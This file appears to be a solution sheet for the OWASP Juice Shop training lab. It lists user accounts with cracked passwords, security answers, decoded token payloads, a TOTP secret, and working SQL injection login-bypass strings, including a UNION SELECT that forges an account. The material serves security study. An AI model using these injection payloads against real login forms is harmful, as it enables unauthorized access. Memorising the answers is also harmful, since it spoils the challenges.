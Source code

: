 # JuiceShop-UsersData
Users Data in Juice-Shop and Others;

*********************************


admin@juice-sh.op

Password = admin123


{
  "status": "success",
  "data": {
    "id": 1,
    "username": "",
    "email": "admin@juice-sh.op",
    "password": "0192023a7bbd73250516f069df18b500",
    "role": "admin",
    "deluxeToken": "",
    "lastLoginIp": "undefined",
    "profileImage": "assets/public/images/uploads/default.svg",
    "totpSecret": "",
    "isActive": true,
    "createdAt": "2020-10-19 13:00:04.308 +00:00",
    "updatedAt": "2020-10-19 13:59:01.826 +00:00",
    "deletedAt": null
  },
  "iat": 1603116006,
  "exp": 1603134006
}
*********************************



mc.safesearch@juice-sh.op

Password = Mr. N00dles

{
  "status": "success",
  "data": {
    "id": 8,
    "username": "",
    "email": "mc.safesearch@juice-sh.op",
    "password": "b03f4b0ba8b458fa0acdc02cdb953bc8",
    "role": "customer",
    "deluxeToken": "",
    "lastLoginIp": "0.0.0.0",
    "profileImage": "assets/public/images/uploads/default.svg",
    "totpSecret": "",
    "isActive": true,
    "createdAt": "2020-11-29 12:22:43.104 +00:00",
    "updatedAt": "2020-11-29 12:22:43.104 +00:00",
    "deletedAt": null
  },
  "iat": 1606655036,
  "exp": 1606673036
}
**************************************



amy@juice-sh.op

Password = K1f.....................

{
 "status": "success",
  "data": {
    "id": 11,
    "username": "",
    "email": "amy@juice-sh.op",
    "password": "030f05e45e30710c3ad3c32f00de0473",
    "role": "customer",
    "deluxeToken": "",
    "lastLoginIp": "0.0.0.0",
    "profileImage": "assets/public/images/uploads/default.svg",
    "totpSecret": "",
    "isActive": true,
    "createdAt": "2020-12-05 10:51:02.978 +00:00",
    "updatedAt": "2020-12-05 10:51:02.978 +00:00",
    "deletedAt": null
  },
  "iat": 1607165772,
  "exp": 1607183772
}

***************************************


bjoern.kimminich@gmail.com

but you can use  this email too  => bjoern@owasp.org

Password = bW9jLmxpYW1nQGhjaW5pbW1pay5ucmVvamI=

Security answer = Zaya

bjoern@juice-sh.op

Security answer = West-2082 

Zip = 25436 => West-2082 

{
  "status": "success",
  "data": {
    "id": 13,
    "username": "",
    "email": "bjoern@owasp.org",
    "password": "9283f1b2e9669749081963be0462e466",
    "role": "deluxe",
    "deluxeToken": "efe2f1599e2d93440d5243a1ffaf5a413b70cf3ac97156bd6fab9b5ddfcbe0e4",
    "lastLoginIp": "0.0.0.0",
    "profileImage": "assets/public/images/uploads/12.jpg",
    "totpSecret": "",
    "isActive": true,
    "createdAt": "2020-12-22 11:44:09.327 +00:00",
    "updatedAt": "2020-12-22 11:44:09.327 +00:00",
    "deletedAt": null
  },
  "iat": 1608637987,
  "exp": 1608655987
}

****************************************



jim@juice-sh.op

Password = ncc-1701

Security Questiob = Samuel

{
"status": "success",
  "data": {
    "id": 2,
    "username": "",
    "email": "jim@juice-sh.op",
    "password": "e541ca7ecf72b8d1286474fc613e5e45",
    "role": "customer",
    "deluxeToken": "",
    "lastLoginIp": "0.0.0.0",
    "profileImage": "assets/public/images/uploads/default.svg",
    "totpSecret": "",
    "isActive": true,
    "createdAt": "2020-11-25 14:39:09.207 +00:00",
    "updatedAt": "2020-11-25 14:39:09.207 +00:00",
    "deletedAt": null
  },
  "iat": 1606320235,
  "exp": 1606338235
}

****************************************



bender@juice-sh.op

Password = Stop'n'Drop

You can use for enter = ' or 1=1 and email like('%bender%');--

{
  "status": "success",
  "data": {
    "id": 3,
    "username": "",
    "email": "bender@juice-sh.op",
    "password": "0c36e517e3fa95aabf1bbffc6744a4ef",
    "role": "customer",
    "deluxeToken": "",
    "lastLoginIp": "0.0.0.0",
    "profileImage": "assets/public/images/uploads/default.svg",
    "totpSecret": "",
    "isActive": true,
    "createdAt": "2020-11-25 14:39:09.207 +00:00",
    "updatedAt": "2020-11-25 14:39:09.207 +00:00",
    "deletedAt": null
  },
  "iat": 1606321399,
  "exp": 1606339399
}


******************************************

chris.pike@juice-sh.op

Enter for = chris.pike@juice-sh.op'--

******************************************


uvogin@juice-sh.op

security answer = Silence of the Lambs

{
  "status": "success",
  "data": {
    "id": 16,
    "username": "",
    "email": "uvogin@juice-sh.op",
    "password": "05f92148b4b60f7dacd04cceebb8f1af",
    "role": "customer",
    "deluxeToken": "",
    "lastLoginIp": "0.0.0.0",
    "profileImage": "assets/public/images/uploads/default.svg",
    "totpSecret": "",
    "isActive": true,
    "createdAt": "2020-12-25 11:55:39.720 +00:00",
    "updatedAt": "2020-12-25 11:55:39.720 +00:00",
    "deletedAt": null
  },
  "iat": 1608897572,
  "exp": 1608915572
}



********************************************

morty@juice-sh.op

Security answer = Snowball => 5N0wb41L

********************************************


acc0unt4nt@juice-sh.op

SQL ınjection is = ' UNION SELECT * FROM (SELECT 15 as 'id', '' as 'username', 'acc0unt4nt@juice-sh.op' as 'email', '12345' as 'password', 'accounting' as 'role', '123' as 'deluxeToken', '1.2.3.4' as 'lastLoginIp' , '/assets/public/images/uploads/default.svg' as 'profileImage', '' as 'totpSecret', 1 as 'isActive', '2020-08-16 14:14:41.644 +00:00' as 'createdAt', '2020-08-16 14:33:41.930 +00:00' as 'updatedAt', null as 'deletedAt')--

"data": {
    "id": 15,
    "username": "",
    "email": "acc0unt4nt@juice-sh.op",
    "password": "12345",
    "role": "accounting",
    "deluxeToken": "123",
    "lastLoginIp": "1.2.3.4",
    "profileImage": "/assets/public/images/uploads/default.svg",
    "totpSecret": "",
    "isActive": true,
    "createdAt": "2020-08-16 14:14:41.644 +00:00",
    "updatedAt": "2020-08-16 14:33:41.930 +00:00",
    "deletedAt": null
  },
  "iat": 1610024731,
  "exp": 1610042731
}

***********************************************

wurstbrot@juice-sh.op

2FA Token = IFTXE3SPOEYVURT2MRYGI52TKJ4HC3KH => generate with authenticator.
